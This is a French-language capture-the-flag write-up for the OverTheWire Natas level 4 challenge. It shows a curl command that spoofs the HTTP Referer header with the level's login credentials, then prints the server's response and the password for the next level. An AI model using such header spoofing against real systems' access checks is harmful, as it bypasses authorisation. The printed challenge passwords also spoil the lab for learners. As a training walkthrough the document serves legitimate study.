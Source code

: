 ## Over-The-Wire -writeup-
### Natas4 (http://natas4.natas.labs.overthewire.org/)

---
#### Etape 1

"Accès refusé, vous visitez le site depuis '...', et les utilisateurs authorisés doivent venir depuis 'http://natas5.natas.labs.overthewire.org/'"  
On va donc **changer notre referer**, une en-tête de requette HTTP qui informe les sites de la provenance des utilisateurs (d'où ils viennent, de quel lien), par le lien demandé.

Je vais utiliser une commande **cUrl** qui va se connecter à la page en changeant le *referer* pour moi:

Structure de la commande pour se connecter à la page: **curl -u username:password http://target-address/**  
*Ici cUrl renvoie la même erreur que sur le navigateur, puisque le referer n'a pas été changé. On s'est juste identifié.*

Structure de la commande pour changer de referer: **curl --referer http:/referer-adress/ http://target-address**  
*Ici cUrl envoie une requête en informant http://target-address/ que l'on provient de http://referer-address/*

**Fusionnons les deux**:
> curl -u username:password http://target-address/ --referer http://referer-address/ http://target-address/

**Enfin, dans notre cas, la commande exacte est**:  
> curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/

---
cUrl renvoie :
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

---
Mot de passe: **iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
